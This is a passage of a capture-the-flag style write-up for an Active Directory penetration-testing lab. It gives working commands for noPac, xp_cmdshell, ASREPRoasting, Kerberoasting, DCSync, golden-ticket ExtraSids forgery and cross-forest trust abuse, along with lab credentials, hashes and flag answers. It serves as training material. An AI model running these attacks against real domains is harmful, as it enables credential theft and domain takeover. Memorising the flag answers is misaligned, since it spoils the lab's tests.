    mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
    ```
    Then in the sql session, we can run this.

    ```sql
    SQL> enable_xp_cmdshell
    SQL> RECONFIGURE
    SQL> xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt
    ```
    The answer is `1m_the_sQl_@dm1n_n0w!`.

### Bleeding Edge Vulnerabilities
#### Tools
1. noPac
2. cube0x0/impacket
3. PetitPotam.py
#### Technique
Here the 3 techniques analogy from the gemini.
1. NoPac (SamAccountName Spoofing)



2. PrintNightmare



3. PetitPotam



#### Challenges
1. Which two CVEs indicate NoPac.py may work? (Format: ####-#####&####-#####, no spaces)
    
    The answer is `2021-42278&2021-42287`.

2. Apply what was taught in this section to gain a shell on DC01. Submit the contents of flag.txt located in the DailyTasks directory on the Administrator's desktop.

    We can solve this by using `NoPac`. Firs we need to ensure if its vulnerable or not by using scanner.py from nopac.

    ```bash
    sudo python3 /opt/noPac/scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
    ```

    

    We can see that the scanner successfully authenticated to the Domain Controller and was able to get Kerberos tickets. Now we can use `noPac.py` to perform the exploit.

    ```bash
    sudo python3 /opt/noPac/noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
    ```
    If it is successful, we will get shell session with system authority. The answer is `D0ntSl@ckonN0P@c!`.

### Miscellaneous Misconfigurations
#### Tools
1. PowerView.ps1
2. rubeus.exe
#### Technique
Here the 5 techniques analogy from the gemini.
1. Exchange & PrivExchange


2. Printer Bug


3. Passwords on Post-it Notes


4. ASREPRoasting


5. GPO Abuse


#### Challenges
1. Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".

    passwd_notreqd means that the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain). To solve this, we can use `PowerView.ps1`.

    ```powershell
    Import-Module C:\Tools\PowerView.ps1
    Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
    ```

    The answer is `ygroce`.

2. Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.

    If "Do not require Kerberos pre-authentication setting" enabled, attacker can crack AS-REP hash that hashed with that user password. And we can get that user password. We can solve this by using `PowerView.ps1` again. First we need to find user that  have "Do not require Kerberos pre-authentication setting" enabled.

    ```powershell
    Import-Module C:\Tools\PowerView.ps1
    Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
    ```
    

    It leads us to `ygroce` again. Then we can use `rubeus.exe` to perfrom ASREPRoasting to get the hash.

    ```powershell
    C:\Tools\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
    ```

    After we get the hash, we can crack it by using `hashcat` with mode `18200`.

    ```bash
    hashcat -m 18200 crack /usr/share/wordlists/rockyou.txt
    ```
    The answer is `Pass@word`.

## Why So Trusting?
### Domain Trusts Primer
#### Tools
1. activedirectory
2. PowerView
3. bloodhound
#### Challenges
1. What is the child domain of INLANEFREIGHT.LOCAL? (format: FQDN, i.e., DEV.ACME.LOCAL)

    We can solve this by using built in `activedirectory` tool.

    ```powershell
    Import-Module activedirectory
    Get-ADTrust -Filter *
    ```

    

    To identify a child domain, check the `IntraForest` section. If it's set to TRUE, it is a child domain. So the answer is `LOGISTICS.INLANEFREIGHT.LOCAL`.

2. What domain does the INLANEFREIGHT.LOCAL domain have a forest transitive trust with?

    Based on the previous image, the answer is `FREIGHTLOGISTICS.LOCAL`.

3. What direction is this trust?

    Both of them have `BiDirectional` trust.

### Attacking Domain Trusts - Child -> Parent Trusts - from Windows
#### Tools
1. mimikatz
2. PowerView
3. Rubeus
#### Technique
To perform this attack after compromising a child domain (ExtraSids Attack), we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

With this data collected, the attack can be performed with Mimikatz. Here the analogy of this attack from gemini.

1. Step 1: Gather Your Forgery Tools


2. Step 2: Forge the Golden Ticket (The Fake Passport)


3. Step 3: Use Your Fake Passport


#### Challenges

1. What is the SID of the child domain?

    We can use `PowerView` with `Get-DomainSID` function. The answer is `S-1-5-21-2806153819-209893948-922872689`.

2. What is the SID of the Enterprise Admins group in the root domain?

    We can use `PowerView` again to solve this. Here the command of it.

    ```powershell
    Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
    ```
    The answer is `S-1-5-21-3842939050-3880317879-2865463114-519`.

3. Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain

    At this point, we have obtained the SID of the child domain and the SID of the Enterprise Admins group in the root domain. To perform ExtraSids Attack, we also need the krbtgt hash for the child domain. We can use `mimikatz` to get this hash.

    ```powershell
    mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt 
    ```
    We can copy the NTLM hash and use `mimikatz` again to perform ExtraSids Attack.

    ```powershell
    mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    ```
    Once we have the golden ticket, we can retrieve the flag with this command.

    ```powershell
    type \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
    ```
    The answer is `f@ll1ng_l1k3_d0m1no3$`.

### Attacking Domain Trusts - Child -> Parent Trusts - from Linux
#### Tools
1. raiseChild.py
#### Challenges
1. Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer.

    To get the hash for bross, we first need to gain control of the parent domain. We can use `raiseChild.py` to get the administrator hash.

    ```bash
    /usr/local/bin/raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
    ```

    

    Once we have the administrator hash, we can use `secretsdump.py` to retrieve `bross's` hash.

    ```bash
    secretsdump.py INLANEFREIGHT.LOCAL/administrator@172.16.5.5 -just-dc-user bross -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf
    ```
    The answer is `49a074a39dd0651f647e765c2cc794c7`.

## Breaking Down Boundaries
### Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
#### Challenges
1. Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.

    First we need to confirm that mssqlsvc user is present in the FREIGHTLOGISTIC.LOCAL domain.

    ```powershell
    Import-Module .\PowerView.ps1 
    Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
    ```
    Once we confirm it, we can use `Rubeus` to get the hash.

    ```powershell
    .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
    ```
    Then we can use `hashcat` with mode `13100` to crack it.

    ```bash
    hashcat -m 13100 crack /usr/share/wordlists/rockyou.txt
    ```
    The answer is `1logistics`.

### Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux
#### Challenges
1. Kerberoast across the forest trust from the Linux attack host. Submit the name of another account with an SPN aside from MSSQLsvc.

    We can solve this by using `GetUserSPNs.py`.

    ```bash
    GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
    ```

    The answer is `sapsso`.

2. Crack the TGS and submit the cleartext password as your answer.

    We can solve this by using `GetUserSPNs.py` again with `-request` flag.

    ```bash
    GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
    ```
    Once we have the hash, we can crack it by using `haschat` with mode `13100`.

    ```bash
    hashcat -m 13100 crack /usr/share/wordlists/rockyou.txt
    ```
    The answer is `pabloPICASSO`.

3. Log in to the ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL Domain Controller using the Domain Admin account password submitted for question #2 and submit the contents of the flag.txt file on the Administrator desktop.

    We can login by using `evil-winrm`.

    ```bash
    evil-winrm -i ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -u sapsso -p 'pabloPICASSO'
    ```
    Once we logged in, we can read the flag. The answer is `burn1ng_d0wn_th3_f0rest!`.

## Defensive Considerations
### Additional AD Auditing Techniques
#### Tools
1. PingCastle
2. ADRecon
3. Group3r
4. AD Explorer

Those tools can also used for reconnaissance and enumeration phase of Active Directory.